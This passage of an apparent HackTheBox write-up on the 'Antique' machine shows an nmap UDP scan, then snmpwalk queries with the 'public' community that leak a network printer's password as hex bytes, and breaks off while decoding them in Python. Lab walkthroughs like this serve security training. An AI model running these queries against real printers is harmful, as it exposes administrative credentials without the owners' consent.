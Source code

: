 ```

oxdf@hacky$ sudo nmap -sU --top-ports 10 -sV 10.10.11.107
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-02 10:22 UTC
Nmap scan report for 10.10.11.107
Host is up (0.090s latency).

PORT     STATE  SERVICE      VERSION
53/udp   closed domain
67/udp   closed dhcps
123/udp  closed ntp
135/udp  closed msrpc
137/udp  closed netbios-ns
138/udp  closed netbios-dgm
161/udp  open   snmp         SNMPv1 server (public)
445/udp  closed microsoft-ds
631/udp  closed ipp
1434/udp closed ms-sql-m

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.35 seconds

```

SNMP (UDP 161) is responding.

### SNMP - UDP 161

Running `snmpwalk` on Antique will only return one entry:

```

oxdf@hacky$ snmpwalk -v 2c -c public 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"

```

However, this post on [Hacking Network Printers](http://www.irongeek.com/i.php?page=security/networkprinterhacking) suggests I can leak the password if I ask for a specific variable:

```

oxdf@hacky$ snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 

```

The blog post says that these are hex representations of each byte. I’ll recognize that the numbers at the start of the list are in the hex ASCII range (0x20 - 0x7e), even if that ones at the end don’t make sense in that context.

I’ll drop into a Python shell and save the numbers as `nums`:

```

oxdf@hacky$ python
Python 3.8.10 (default, Mar 15 2022, 12:22:08) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> nums = "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135"

```
